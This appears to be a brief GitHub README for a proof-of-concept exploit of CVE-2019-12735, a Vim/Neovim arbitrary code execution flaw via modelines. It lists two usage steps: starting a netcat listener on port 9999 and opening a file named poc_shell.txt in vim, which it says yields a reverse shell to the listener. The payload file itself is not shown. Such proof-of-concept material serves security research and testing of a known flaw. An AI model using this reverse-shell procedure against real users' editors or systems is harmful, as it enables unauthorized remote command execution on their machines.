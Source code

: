 # ace-vim-neovim
Vim/Neovim Arbitrary Code Execution via Modelines (CVE-2019-12735)

# Usage
1. listen
```
nc -vlp 9999
```
2. ace 
```
vim poc_shell.txt
```
And then, your localhost will get shell.
